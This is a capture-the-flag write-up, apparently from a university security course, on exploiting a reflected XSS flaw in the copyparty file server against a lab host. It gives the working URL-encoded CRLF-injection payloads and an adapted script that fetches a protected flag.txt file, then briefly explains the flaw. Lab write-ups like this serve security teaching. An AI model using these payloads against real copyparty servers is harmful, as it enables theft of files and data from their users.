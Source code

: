 # CTF Semana #7 (XSS)

## Accessing the Website
We navigated to the provided address [http://ctf-fsi.fe.up.pt:5007](http://ctf-fsi.fe.up.pt:5007), using **Google Chrome** (the exploit does not work on Firefox) and explored the site's functionalities as a regular user.

![websitePhoto](/docs/images/s.png)

---

## Searching for Known Vulnerabilities
We searched for information about vulnerabilities related to the service and found out about copyparty. We then used the following search term in Google:  `copyparty cve xss` and found an exploit published on [https://www.exploit-db.com/exploits/51635](https://www.exploit-db.com/exploits/51635), describing a **Reflected XSS** vulnerability.

---

## Testing the Exploit
1. The original exploit triggers an alert with the following URL:

```html
https://localhost:3923/?k304=y%0D%0A%0D%0A%3Cimg+src%3Dcopyparty+onerror%3Dalert(1)%3E
```

2. We adapted the exploit to the challenge's server address:

```html
http://ctf-fsi.fe.up.pt:5007/?k304=y%0D%0A%0D%0A%3Cimg+src%3Dcopyparty+onerror%3Dalert(1)%3E
```

3. Upon loading this link in the browser, an alert appeared, confirming the site is vulnerable to **Reflected XSS**.

![alert](/docs/images/alert.png)

---

## Modifying the Exploit to Retrieve the Flag
We replaced the alert code with a script to fetch the protected `flag.txt` file and display its content in an alert.

Adapted code:

```html
http://ctf-fsi.fe.up.pt:5007/?k304=y%0D%0A%0D%0A%3Cscript%3Efetch('/flag.txt').then(response%20=%3E%20response.text()).then(data%20=%3E%20alert(data))%3C/script%3E
```

We pasted the link above into the browser and it loaded the page, and the script was executed.
The flag content appeared in an alert.

![flagCaptured](/docs/images/flagCaptured.png)

 The retrieved flag is: 

**flag{youGotMeReallyGood}**


# Tasks

## Why couldn't the flag be accessed directly?
The flag.txt file was stored on the server but protected from direct access. This protection was implemented to restrict external access to sensitive files. The server only allows access to these files through internal mechanisms, making it impossible to view them directly via a simple HTTP request or URL.

## Is this service popular, and could known vulnerabilities help you access the flag?
Yes, this service is popular and has known vulnerabilities. Specifically, a Reflected XSS vulnerability in versions prior to 1.8.6 of Copyparty was exploited. By searching for known exploits related to the service, we were able to find that this vulnerability allowed attackers to execute malicious JavaScript in the context of a victim’s browser, enabling access to sensitive information such as the flag.

## What vulnerability was exploited?
This attack exploited a Reflected XSS vulnerability. The server failed to properly validate or sanitize user input in the URL, allowing an attacker to inject and execute malicious JavaScript code in the context of the victim’s browser. By exploiting this vulnerability, we were able to fetch the contents of the protected flag.txt file and display it in an alert.

